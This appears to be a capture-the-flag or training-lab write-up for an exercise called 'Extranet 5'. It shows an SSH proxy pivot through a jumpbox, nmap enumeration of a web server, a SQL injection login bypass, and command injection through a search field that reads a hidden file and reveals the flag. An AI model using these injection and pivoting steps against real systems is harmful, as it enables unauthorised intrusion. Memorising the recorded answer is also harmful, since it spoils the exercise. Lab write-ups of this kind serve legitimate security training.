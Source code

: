 #### Post - Extranet 5 ####

Utilizing the intelligence provided, enumerate the target provided. Look for user generated documents, relating to network structure, on this host that will direct further actions.

##### ANSWER #####

Step 1. ssh into the jumpbox -> `ssh comrade@localhost -p 11111 -D 9050 `

step 2. find the http ports and folders open -> `proxychains nmap -sV --script=http-enum 192.168.28.100`
    Gives: 

    Nmap scan report for 192.168.28.100
    Host is up (0.00042s latency).
    Not shown: 998 closed ports
    PORT     STATE SERVICE VERSION
    80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
    | http-enum: 
    |   /admin/: Possible admin folder
    |   /admin/login.php: Possible admin folder
    |_  /img/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
    |_http-server-header: Apache/2.4.29 (Ubuntu)
    2222/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

step 3. On linops, make sure the proxy setting for firefox are enabled and then open: http://192.168.28.100/admin/login.php

step 4: SQl login to the page by using sql injection on the user and password field -> `tom' or 1='1`

step 5: Brings you to the find page. Question is asking for network. find anything associated with network since the page is vulnerable to sql injection

`;find / -iname network* 2> /dev/null ` find the network page. 

Step 6: YOu find that there's an interesting path -> `ls /home/comrade/Dekstop/network`

Step 7: findout whats on the directory in step 6. `;ls /home/comrade/Dekstop/network`
        map.png is on the directory 

step 8: Find out if there are any hidden directories `;ls -a /home/comrade/Dekstop/network`

Step 9. There is a mapkey.txt file Cat this file to see whats inside `;cat /home/comrade/Dekstop/network/.mapkey.txt`
        What's inside the contents is the answer for this question -> 2ljeSS3CbYtDob90cbeH


#### Post - Extranet 2 5 ####

The Donovian government is furthering their inventory expansion project. Identify and locate this intel to support this.

